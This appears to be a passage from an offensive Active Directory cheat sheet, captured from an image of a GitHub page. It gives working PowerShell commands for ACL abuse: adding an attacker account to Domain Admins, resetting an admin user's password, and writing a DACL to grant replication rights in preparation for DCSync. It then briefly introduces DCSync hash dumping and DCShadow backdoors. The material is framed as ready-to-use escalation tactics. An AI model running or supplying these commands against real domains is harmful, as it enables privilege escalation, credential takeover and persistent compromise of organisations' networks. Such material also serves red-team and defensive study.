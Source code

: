 ### ACL Abuse Tactics

_Leverage powerful ACEs to escalate privileges immediately._

#### Actions

1.  **GenericAll on a group**
    
    ```powershell
    # Add yourself to high-privilege group
    Add-ADGroupMember -Identity "Domain Admins" -Members "AttackerUser"
    
    ```
    
    _Effect:_ Instant Domain Admin rights.
    
2.  **GenericWrite on a user**
    
    ```powershell
    # Reset password of an admin account
    Set-ADAccountPassword -Identity "AdminUser" -NewPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force)
    
    ```
    
    _Effect:_ Control over admin credentials.
    
3.  **WriteDacl on an OU**
    
    ```powershell
    # Grant Replicating Directory Changes to self on domain root
    $acl = Get-Acl AD:\DC=lab,DC=local
    $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("LAB\\AttackerUser","DS-Replication-Get-Changes","Allow")
    $acl.AddAccessRule($ace)
    Set-Acl AD:\DC=lab,DC=local $acl
    
    ```
    
    _Effect:_ Prepare for DCSync by granting needed replication rights.
    

----------

### DCSync & DCShadow

_Extract or inject data via AD replication protocols._

### Why It Matters  
- DCSync: quick domain hash dump.  
- DCShadow: stealth backdoor insertion.
